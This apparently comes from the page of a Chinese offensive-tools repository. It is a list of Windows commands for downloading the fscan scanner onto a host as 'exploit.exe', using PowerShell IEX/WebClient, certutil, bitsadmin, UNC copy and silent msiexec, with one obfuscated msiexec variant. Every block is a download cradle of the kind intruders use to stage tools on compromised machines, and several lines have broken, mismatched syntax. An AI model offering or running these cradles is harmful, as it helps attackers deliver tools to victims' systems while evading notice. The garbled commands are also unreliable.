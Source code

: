 
Windows arm

```
64
powershell.exe -Command "Invoke-WebRequest -Uri https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_arm64.exe -OutFile exploit.exe"
powershell.exe -Command "IEX(New-Object Net.WebClient).DownloadFile('https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_arm64.exe -OutFile exploit.exe', exploit.exe)"
certutil.exe -urlcache -split -f https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_arm64.exe -OutFile exploit.exe exploit.exe
copy \\github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_arm64.exe -OutFile exploit.exe exploit.exe
bitsadmin /rawreturn /transfer down "https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_arm64.exe" c:\\exploit.exe
msiexec /q /i https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_arm64.exe
msiexec /q /%os:~1,1%https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_arm64.exe

32
powershell.exe -Command "Invoke-WebRequest -Uri https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_armv6.exe -OutFile exploit.exe"
powershell.exe -Command "IEX(New-Object Net.WebClient).DownloadFile('https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_armv6.exe -OutFile exploit.exe', exploit.exe)"
certutil.exe -urlcache -split -f https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_armv6.exe -OutFile exploit.exe exploit.exe
copy \\github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_armv6.exe -OutFile exploit.exe exploit.exe
bitsadmin /rawreturn /transfer down "https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_armv6.exe" c:\\exploit.exe
msiexec /q /i https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_armv6.exe
msiexec /q /%os:~1,1%https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_armv6.exe
```

Windows 2003

```
powershell.exe -Command "Invoke-WebRequest -Uri https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_win03.exe -OutFile exploit.exe"
powershell.exe -Command "IEX(New-Object Net.WebClient).DownloadFile('https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_win03.exe -OutFile exploit.exe', exploit.exe)"
certutil.exe -urlcache -split -f https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_win03.exe -OutFile exploit.exe exploit.exe
copy \\github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_win03.exe -OutFile exploit.exe exploit.exe
bitsadmin /rawreturn /transfer down "https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_win03.exe" c:\\exploit.exe
msiexec /q /i https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_win03.exe
msiexec /q /%os:~1,1%https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_win03.exe

upx
powershell.exe -Command "Invoke-WebRequest -Uri https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_win03_upx.exe -OutFile exploit.exe"
powershell.exe -Command "IEX(New-Object Net.WebClient).DownloadFile('https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_win03_upx.exe -OutFile exploit.exe', exploit.exe)"
certutil.exe -urlcache -split -f https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_win03_upx.exe -OutFile exploit.exe exploit.exe
copy \\github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_win03_upx.exe -OutFile exploit.exe exploit.exe
bitsadmin /rawreturn /transfer down "https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_win03_upx.exe" c:\\exploit.exe
```